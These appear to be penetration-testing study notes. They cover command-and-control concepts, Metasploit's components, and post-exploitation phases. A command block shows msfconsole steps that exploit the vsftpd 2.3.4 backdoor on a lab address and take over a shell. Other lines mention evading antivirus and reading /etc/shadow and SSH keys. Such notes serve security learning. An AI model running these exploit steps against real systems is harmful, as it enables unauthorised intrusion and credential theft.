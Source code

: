 			Frameworks have their own fingerprints or indicators of compromise so we can thwart detection by using frameworks that a firewall or antivirus might not be able to detect.
Zombies/Botnets
	: a machine that has a C2 agent running on it and is therefore, compromised. Botnets refer to multiple of the zombies controlled by the same C2 server.
Metasploit
	: C2 framework that was created in 2003 and is owned by Rapid7, contains a suite of tools for hacking servers and other networked devices as well as port and service scanning. Integrated database all your scans are saved to for easy review.
		MSFconsole
			: main interface for Metasploit, offers a centralized console to access all the options and modules as a CLI
		Mterpreter
			: Linux style shell that metasploit launches when ou successfully break into a target machine. (runs on the machine you compromise)
		msfvenom
			: Allows the operator to craft the malicious agents and payloads that will be used to cmomunicate back with metasploit.
	Metasploit modules
	![[Pasted image 20221116164146.png]]
```bash
msfconsole
	> help
	> show auxiliary
	> show exploits
	> search frp/anonymous
	> use scanner/frp/anonymous
	> info
	> options
	> show advanced options
	> set RHOSTS 172.22.117.150
	> info
	> run
#vsftpd exploit
	> search vsftpd
	> use exploit/unix/ftp/vsftpd_234_backdoor
	> info
	> show advanced options
	> set RHOSTS 172.22.117.150
	> run #maybe a couple times
	> whoami
	> CTRL+Z -> yes
	> sessions
	> sessions 1
	> whoami
```
#### Post Exploitation
Enumeration and Useful data
	Similar to our first phase of reconnaissance except we are enumerating and searching for data from inside the network.
Persistence
	 attempting to maintain long-term access to your target.
PrivEsc (MITRE Tactic)
	process of escalating privleges from a low privileged user to a high privilege user.
		_landing on a user with low privileges is very  common so escalation becomes more and more important. think combatting lowest priveleged access._
Low priv tasks
	1. gathering system/OS details
	2. gathering services and versions
	3. Getting a list of users and groups.
High priv tasks
	1. Reading sensitive files such as /etc/shadow and SSH keys
	2. Creating users and assigning them to priveleged groups.